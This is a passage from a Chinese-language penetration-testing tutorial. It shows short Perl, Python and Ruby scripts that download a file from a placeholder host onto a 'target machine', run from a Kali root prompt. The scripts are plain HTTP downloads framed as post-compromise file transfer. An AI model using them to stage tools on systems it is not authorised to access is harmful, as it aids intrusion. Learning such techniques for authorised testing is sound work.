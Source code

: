 C:>cscript test.vbs

以下四种语言都不是系统原生脚本，但是如果你的目标机器安装了这些语言，你就可以使用他们来下载文件。

### Perl File Download

Perl是一门很吊的语言，使用它基本可以实现任何事情，用它实现文件下载也很简单。

```
#!/usr/bin/perl
use LWP::Simple;
getstore("http://domain/file", "file");

```

执行脚本文件是这样

```
root@kali:~# perl test.pl

```

### Python File Download

Python也是很受欢迎的主流脚本语言，代码清晰且简洁。

```
#!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://domain/file')
localFile = open('local_file', 'w')
localFile.write(u.read())
localFile.close()

```

执行脚本文件是这样

```
root@kali:~# python test.py

```

### Ruby File Download

Ruby是一个面对对象的语言，Metasploit框架就是用它来实现的，当然他也可以实现像下载文件这样的小任务。

```
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("www.domain.com") { |http|
r = http.get("/file")
open("save_location", "wb") { |file|
file.write(r.body)
}
}

```
